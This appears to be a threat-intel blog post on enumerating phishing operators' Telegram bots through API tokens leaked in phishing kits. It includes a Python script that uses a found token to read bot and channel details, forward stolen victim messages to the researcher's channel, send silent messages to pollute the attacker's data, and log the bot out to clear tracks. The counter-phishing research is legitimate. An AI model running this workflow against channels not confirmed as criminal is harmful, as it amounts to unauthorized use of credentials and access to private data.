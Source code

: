 ```yaml
---
layout: threat-intel-default
title:  "Telegram Enumeration"
date:   2025-08-07
description: "qwerty"
author: "RedDuck"
tags: threat-intel
---
```


Many phishing sites rely on the Telegram bot API to exfiltrate victim data. Oftentimes, eCriminals are either
<ul>
    <li> deploying half-baked phishing kits they have purchased from somebody with a username akin to "__1337__phisher", or </li>
    <li> inexperienced and looking to make a quick profit with minimal effort (and likely more than a pinch of vibe-coding) </li>
</ul>

Fortunately for us, this means they often leave their Telegram bot API tokens publicly accessible, either through
<ul>
    <li> hard-coding it into the site's page source </li>
    <li> exposing it in POST requests and responses </li>
</ul>

With this token (and oftentimes, the accompanying channel ID to which the information is sent), we can use the native Telegram bot API to enumerate data pertaining to the attacker's operation, and what data they have stolen so far.

THE FOLLOWING WORKFLOWS SHOULD NOT BE USED AGAINST NON-ATTACKER CHANNELS. WE ONLY ANALYZE SITES SUBMITTED TO PHISHTANK.ORG, AND ARE CONFIMRED TO BE VALID PHISHES.

<script src="https://cdn.jsdelivr.net/npm/prismjs@1.9.0/prism.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/prismjs@1.9.0/components/prism-markdown.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/prismjs@1.9.0/components/prism-markup.js"></script>

<pre><code class="language-python">
from datetime import datetime
import requests
import time
import os

USING = "BOT_TOKEN1"

BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 
</code></pre>

<!-- ```python
from datetime import datetime
import requests
import time
import os

USING = "BOT_TOKEN1"

BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 

# Workflow that will gather data specific to the channel that the attackers are using to exfiltrate data. If the channel ID is not known, you can use 
# determine this value by interacting with the attacker's bot; the response you receive will likely contain the ID of the channel used to exfiltrate victim data
channel_endpoints = {
    "getChatAdministrators":f"getChatAdministrators?chat_id={CHANNEL_IDS[USING]}",
    "getChat":f"getChat?chat_id={CHANNEL_IDS[USING]}",
    "getChatMembersCount":f"getChatMembersCount?chat_id={CHANNEL_IDS[USING]}",
    "createChatInviteLink":f"createChatInviteLink?chat_id={CHANNEL_IDS[USING]}",
}

# Workflow that will gather data on the bot, such as 
# - Name
# - Recent updates
# - Description
# and other general information that can be used later.
gen_endpoints = {
    "getUpdates":"getUpdates",
    "getWebhookInfo":"getWebhookInfo",
    "getMe":"getMe",
    "getMyCommands":"getMyCommands",
    "getMyName":"getMyName",
    "getMyDescription":"getMyDescription",
    "getAvailableGifts":"getAvailableGifts",
    "getWebhookInfo":"getWebhookInfo",
}

# Workflow that will remove evidence of your interaction with the attacker's bot. These endpoints will
# - Leave the chat you created to enumerate stolen data
# - Close the bot
# - Log the bot out
clear_tracks = {
    "leaveChat":f"leaveChat?chat_id={MY_CHANNEL_IDS[USING]}",
    "close":f"close",
    "logOut":f"logOut"
}

# Workflow that will send data specified by you to the attacker's channel. By default, this workflow sends empty messages, and disables notifications, so as to minimize the likelihood that the attacker will immediately detect any anomolous behavior. You may use this workflow to pollute the attacker's
# dataset, enumerate channel ID(s), etc.
sendMessage = {
    "sendMessage":f"sendMessage?text=''&chat_id={MY_CHANNEL_IDS[USING]}&disable_notification=True"
}

# Workflow to enumerate what data the attackers have stolen. 
forwardMessage = {
    "forwardMessage": f"forwardMessage?chat_id={MY_CHANNEL_IDS[USING]}&from_chat_id={CHANNEL_IDS[USING]}&message_id="
}

folder = f"{USING}-{datetime.today().strftime('%m-%d-%y')}"
try:
    os.mkdir(f"{folder}")
except:
    print("Folder already exists")
os.chdir(f"{folder}")

def enumerate():
    for inc in range(X,Y): 
        for key in forwardMessage.keys():
            looking_at = key
            response = requests.get(URL+forwardMessage[looking_at]+str(inc))
            print(response.text)
            if "Too Many Requests: retry after" not in response.text and "Bad Request: message to forward not found" not in response.text:
                with open(f"{looking_at}.json","a") as a:
                    a.write(f"{response.text}\n")
    
def query_endpoint(endpoint):
    for key in endpoint.keys():
        looking_at = key
        response = requests.get(URL+endpoint[looking_at])
        print(response.text)
        if '{"ok":true' in response.text:
            with open(f"{looking_at}.json","a") as a:
                a.write(f"{response.text}\n")

def initial_recon():
    query_endpoint(gen_endpoints)
    query_endpoint(channel_endpoints)

STAGE = "3"

match STAGE:
    case "1":
        initial_recon()
    case "2":
        enumerate()
    case "3":
        query_endpoint(clear_tracks)

os.chdir("..")
``` -->